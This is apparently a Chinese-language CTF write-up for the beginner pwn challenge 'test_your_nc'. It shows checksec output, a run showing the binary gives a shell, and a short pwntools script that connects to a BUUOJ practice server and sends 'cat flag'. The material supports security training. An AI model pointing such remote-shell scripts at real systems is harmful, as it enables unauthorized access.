 ```yaml
---
title: test_your_nc
date: 2022-07-01 16:29:37
permalink: /pages/a61298/
categories:
  - pwn
  - 栈溢出
tags:
  - pwn
author: jimmy
---
```


## 一、基本思路

### 1. 检查运行架构和保护机制

```javascript
root@localhost ~# checksec test
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### 2. 试运行程序

直接运行代码查看其效果：

```javascript
root@ubuntu ~/D/pwn> chmod +x test
root@ubuntu ~/D/pwn> ./test
$ abc      
/bin/sh: 1: abc: not found
```

从这里就能发现该程序直接能拿到shell

### 3. exp

由于执行程序就能直接拿到shell，所以直接远程连输入cat flag就完了

```javascript
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
io=remote("node4.buuoj.cn",25352)
payload='cat flag'
io.sendline(payload)
io.interactive()
```



> 作者：jimmy
> 链接：https://？
